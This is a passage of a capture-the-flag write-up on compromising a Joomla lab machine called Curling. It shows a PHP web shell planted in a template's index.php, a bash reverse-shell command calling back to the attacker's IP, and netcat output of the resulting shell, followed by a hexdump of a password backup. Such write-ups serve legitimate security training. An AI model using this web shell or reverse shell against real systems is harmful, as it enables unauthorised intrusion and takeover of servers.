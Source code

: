 ```
000000189:   200        114 L    373 W      5403 Ch     "Address
```
As we can see, one of the request is giving 303 instead of 200. So we can guess that that request logins with user 'Floris' refers to a successful login.

## User
Once we are logged in into joomla administration page, we can navigate to Extensions -> Template -> Templates.  
Here there are two templates available, if we go back to the index source, we can see that the one that is installed is protostar:  
```
<link href="/templates/protostar/favicon.ico" rel="shortcut icon" type="image/vnd.microsoft.icon" />
<link href="/templates/protostar/css/template.css?b6bf078482bc6a711b54fa9e74e19603" rel="stylesheet" />
```
So let's upload our payload into this one.  
Let's edit the template index.php and add the following:
```
<?php system($_REQUEST['cmd']); ?>
```
Now let's use index.php to pop a shell.  
Let' create a shell file b0d.sh containing:
```
bash -i &> /dev/tcp/10.10.14.18/4444 0>&1
```
Let's host it using SimpleHTTPServer on port 80 and run the following request:  
```
[root@kali ~ ]$ nc -lvnp 4444                        
listening on [any] 4444 ...
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.150] 36214
bash: cannot set terminal process group (1298): Inappropriate ioctl for device
bash: no job control in this shell
www-data@curling:/var/www/html$
```
And we do get a shell as www-data.  
Now, if we try to read the user's flag we do get permission denied. obviously, we do not have the permisison to read this file:
```
www-data@curling:/home/floris$ cat user.txt
cat: user.txt: Permission denied
www-data@curling:/home/floris$ ls -l
total 12
drwxr-x--- 2 root   floris 4096 May 22  2018 admin-area
-rw-r--r-- 1 floris floris 1076 May 22  2018 password_backup
-rw-r----- 1 floris floris   33 May 22  2018 user.txt
```
we can see that there is a password_backup file, now there is a bit of stego challenge.  
Process of deobfuscation will be listed below as everything is quite straight forward:
```
www-data@curling:/home/floris$ cat password_backup
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
```